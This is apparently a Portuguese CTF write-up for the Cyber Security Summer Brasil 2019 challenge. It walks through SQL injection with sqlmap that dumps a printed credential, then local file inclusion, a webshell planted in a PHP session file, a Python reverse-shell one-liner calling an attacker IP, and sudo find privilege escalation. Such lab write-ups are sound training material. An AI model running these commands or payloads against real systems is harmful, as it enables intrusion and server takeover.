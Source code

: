 ```yaml
---
title: "CSSB2019 - Resolução"
classes: wide
header:
  teaser: /assets/images/CSSB2019/00.jpg
  overlay_image: /assets/images/CSSB2019/00.jpg
  overlay_filter: 0.5
ribbon: DarkSlateBlue
excerpt: "Resolução do CTF do Cyber Security Summer Brasil 2019"
description: "Resolução do CTF do Cyber Security Summer Brasil 2019"
categories:
  - Write Up
tags:
  - SQL Injection
  - LFI
  - PHP
  - Privilege Escalation
toc: false
toc_sticky: true
toc_label: "Sumário"
toc_icon: "terminal"
---
```


Acessando o site da aplicação, encontramos a seguinte página:

![](/assets/images/CSSB2019/web-01.png){: .align-center}

Durante a fase de reconhecimento foi possível identificar que o host possuía 2 portas TCP abertas.

![](/assets/images/CSSB2019/web-02.png){: .align-center}

Como o host possuía a porta 80 aberta, foi realizada uma enumeração dos diretórios existentes nessa aplicação.

![](/assets/images/CSSB2019/web-03.png){: .align-center}

Dessa forma, foi possível identificar o diretório “/manager”, e acessando esse endereço foi identificado um local para realização de login na aplicação.

![](/assets/images/CSSB2019/web-04.png){: .align-center}

Afim de testar o comportamento da aplicação, foi realizado a tentativa de login na plataforma, informando como usuário o nome “ admin’ “, e, como pode ser visto na imagem abaixo, a aplicação retornou um erro.

![](/assets/images/CSSB2019/web-05.png){: .align-center}

![](/assets/images/CSSB2019/web-06.png){: .align-center}

O erro retornado, pode indicar que a aplicação está vulnerável a SQL Injection, então para confirmar essa informação, foi utilizada a ferramenta conhecida como _sqlmap_.

```
sqlmap -r request
```
![](/assets/images/CSSB2019/web-07.png){: .align-center}

Com a confirmação da vulnerabilidade, foi utilizado a mesma ferramenta para extrair informações desse banco de dados, e, dessa forma, foi possível encontrar as credenciais de acesso a aplicação.

```
sqlmap -r request --dbms=MySQL --dump
```
![](/assets/images/CSSB2019/web-08.png){: .align-center}

```
user01:CyB3rS3cur!ty$umm1t@2019
```

Com as credenciais encontradas no banco de dados, foi possível obter acesso a aplicação.

![](/assets/images/CSSB2019/web-09.png){: .align-center}

Com o login realizado, é possível ler alguns arquivos presentes no site. Navegando entre eles, foi possível entender como a aplicação se comporta e dessa forma também foi identificado que a aplicação possuí uma vulnerabilidade de _Local File Inclusion (LFI)_.

![](/assets/images/CSSB2019/web-10.png){: .align-center}

Lendo os arquivos presentes na aplicação, foi identificado no arquivo “index.php” que a mensagem apresentada para o usuário após a realização do login é processada pela função _include_ do PHP.

![](/assets/images/CSSB2019/web-11.png){: .align-center}

A função _include_ do PHP é responsável por incluir arquivos e interpretar o seu conteúdo. Sabendo que esse caminho está sendo passado através do _cookie_ iniciou-se o processo para tentar identificar alguma forma de salvar ou criar arquivos no servidor, para que posteriormente ele pudesse ser interpretado por essa função.

Analisando outros arquivos presentes no site, foi possível identificar que o arquivo “plogin.php”, utilizado para realizar login na aplicação, possui um outro campo para criação de _cookie_ que não foi utilizado nessa sessão.

![](/assets/images/CSSB2019/web-12.png){: .align-center}

Analisando também o arquivo “info.php”, foi possível identificar o local onde os arquivos de sessão são salvos.

![](/assets/images/CSSB2019/web-13.png){: .align-center}

Aproveitando do LFI encontrado anteriormente, foi realizado a tentativa de leitura do arquivo criado para a sessão atual.

![](/assets/images/CSSB2019/web-14.png){: .align-center}

Dessa forma, foi possível notar que o parâmetro não utilizado pela aplicação também é salvo no arquivo, servindo como um possível local para injeção de conteúdo. Então utilizando esse campo foi enviado uma webshell simples para ser salva no arquivo.

![](/assets/images/CSSB2019/web-15.png){: .align-center}

E como foi possível confirmar, o conteúdo foi salvo sem problemas.

![](/assets/images/CSSB2019/web-16.png){: .align-center}

Como identificado anteriormente no código, o conteúdo do _cookie_ "username" é interpretado pela função include, agora que já temos um arquivo no servidor com o código desejado, podemos usar ela para executar ações no servidor.

![](/assets/images/CSSB2019/web-17.png){: .align-center}

Dessa forma, foi possível executar comandos no servidor. Aproveitando essa funcionalidade, foi verificado se o servidor possuía o Python instalado e qual a sua versão.

![](/assets/images/CSSB2019/web-18.png){: .align-center}

Com a confirmação de que o Python está instalado no servidor, é possível se utilizar dele para conseguir um acesso shell ao servidor, utilizando o próprio Python para criar uma _reverse shell._

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.24.75.203",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

![](/assets/images/CSSB2019/web-19.png){: .align-center}

E dessa forma, foi possível acessar o servidor através de uma _shell_ interativa.

![](/assets/images/CSSB2019/web-20.png){: .align-center}

Analisando as permissões do usuário, foi possível identificar que todos os usuários do sistema possuem a permissão para executar o comando “find” como sudo.

![](/assets/images/CSSB2019/web-21.png){: .align-center}

Com essa informação, foi possível se aproveitar dessa permissão para conseguir elevar os privilégios do usuário para root.

```
sudo find . -exec /bin/sh \; -quit
```

![](/assets/images/CSSB2019/web-22.png){: .align-center}

